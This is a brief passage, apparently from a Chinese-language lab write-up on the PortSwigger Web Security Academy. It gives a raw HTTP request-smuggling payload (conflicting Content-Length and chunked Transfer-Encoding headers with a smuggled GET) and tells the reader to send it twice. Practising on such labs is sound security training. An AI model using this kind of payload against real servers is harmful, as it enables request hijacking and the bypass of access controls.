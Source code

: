 <img src="images/26.png" alt="image-20240430135955825" style="zoom:50%;" />

发送两次

```
POST / HTTP/1.1
Host: 0a860096032390c7800a1c8f00f800d1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Transfer-Encoding: chunked

0

GET /aaa HTTP/1.1
Test: 111
```
